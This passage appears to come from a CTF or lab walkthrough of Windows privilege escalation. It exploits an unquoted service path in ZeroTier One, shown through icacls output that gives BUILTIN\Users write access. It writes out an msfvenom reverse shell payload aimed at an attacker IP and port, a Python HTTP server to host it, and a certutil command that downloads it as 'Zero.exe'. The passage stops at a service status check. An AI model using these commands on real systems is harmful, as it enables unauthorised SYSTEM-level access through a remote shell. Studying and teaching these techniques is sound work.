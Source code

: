 Importantly, the service binary is owned by ```NT AUTHORITY\SYSTEM```.

```
C:\Users\bitbucket>dir /q "C:\Program Files (x86)\Zero Tier\Zero Tier One\ZeroTier One.exe"
 Volume in drive C has no label.
 Volume Serial Number is 7CD9-A0AE

 Directory of C:\Program Files (x86)\Zero Tier\Zero Tier One

12/05/2014  11:52 AM         9,594,056 NT AUTHORITY\SYSTEM    ZeroTier One.exe
               1 File(s)      9,594,056 bytes
               0 Dir(s)  40,566,411,264 bytes free
```
User permissions for ```C:\Program Files (x86)\Zero Tier```:

```
C:\Users\bitbucket>icacls "C:\Program Files (x86)\Zero Tier"
C:\Program Files (x86)\Zero Tier BUILTIN\Users:(OI)(CI)(W)
                                 NT SERVICE\TrustedInstaller:(I)(F)
                                 NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                 NT AUTHORITY\SYSTEM:(I)(F)
                                 NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                 BUILTIN\Administrators:(I)(F)
                                 BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                 BUILTIN\Users:(I)(RX)
                                 BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                 CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                                 APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

```bitbucket```, as a member of ```BUILTIN\Users```, has write access to the ```C:\Program Files (x86)\Zero Tier``` directory through ```BUILTIN\Users```. It is therefore possible to write a "Zero.exe" binary have the zerotieroneservice execute it.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.48.55 LPORT=31337 -f exe -o Zero.exe
```
Now to transfer it to our target...

```
python3 -m http.server 80
```

```
C:\Program Files (x86)\Zero Tier>certutil -urlcache -f http://10.13.48.55/Zero.exe Zero.exe
```

Next, I checked the status of ```zerotieroneservice```.

```
C:\Program Files (x86)\Zero Tier>sc query zerotieroneservice
